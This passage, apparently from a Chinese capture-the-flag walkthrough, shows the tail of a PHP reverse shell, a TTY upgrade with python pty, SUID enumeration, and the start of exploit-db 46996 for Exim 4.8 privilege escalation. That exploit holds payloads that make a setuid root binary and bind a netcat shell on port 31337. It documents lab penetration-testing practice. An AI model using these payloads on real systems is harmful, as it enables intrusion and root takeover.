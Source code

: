```php
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```

![image-20211006233037731](/assets/img/image-20211006233037731.png)

拿到回弹shell，升级交互shell

```
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

## 0x03 提权

尝试sudo -l需要密码，再尝试寻找suid文件

```
find / -perm -u=s 2>/dev/null
```

![image-20211006233721939](/assets/img/image-20211006233721939.png)

发现exim4可以尝试利用

```
exim4 --version
```

![image-20211006233944474](/assets/img/image-20211006233944474.png)

```
 searchsploit -w exim 4.8
```

![image-20211006234423610](/assets/img/image-20211006234423610.png)

使用https://www.exploit-db.com/exploits/46996进行提权，在目标机保存poc并运行

```]

tee pri.sh <<-'EOF'
METHOD="setuid" # default method
PAYLOAD_SETUID='${run{\x2fbin\x2fsh\t-c\t\x22chown\troot\t\x2ftmp\x2fpwned\x3bchmod\t4755\t\x2ftmp\x2fpwned\x22}}@localhost'
PAYLOAD_NETCAT='${run{\x2fbin\x2fsh\t-c\t\x22nc\t-lp\t31337\t-e\t\x2fbin\x2fsh\x22}}@localhost'

# usage instructions
function usage()
{
	echo "$0 [-m METHOD]"
	exit 1
}

```